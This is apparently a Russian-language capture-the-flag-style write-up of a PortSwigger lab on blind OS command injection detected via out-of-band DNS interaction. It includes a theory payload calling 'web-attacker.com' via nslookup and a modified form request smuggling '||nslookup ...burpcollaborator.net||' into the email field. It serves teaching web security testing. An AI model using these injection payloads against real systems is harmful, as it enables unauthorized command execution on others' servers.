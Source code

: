 # Blind OS command injection with out-of-band interaction

## Theory

Можно использовать введенную команду, которая инициирует внешнее сетевое взаимодействие с системой, которой вы управляете, используя методы OAST. Например:
```
& nslookup kgji2ohoyw.web-attacker.com &
```

Эта полезная нагрузка использует команду nslookup для поиска DNS для указанного домена. Злоумышленник может отслеживать выполнение указанного поиска и, таким образом, обнаруживать, что команда была успешно внедрена.

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/1.png)

Перейдем на страницу "Submit feedback".

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/2.png)

Заполним поля для ввода случайными данными и перехватим запрос.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/3.png)

Откроем Burp Collaborator.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/4.png)

Скопируем DNS кнопкой "Copy to clipboard" и модифицируем запрос.
```
email=111%40gmail.com||nslookup+uwulv3j5g76lsugm3828tvxxuo0eo3.burpcollaborator.net||
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/5.png)

Отправив запрос, перейдем к окну Burp Collaborator и нажмем кнопку "Pull now" для обновления. Заметим, что мы получили ответ от нашего модифицированного запроса.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/6.png)

Получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/Command_injection/Blind_OS_command_injection_with_out-of-band_interaction/assets/7.png)
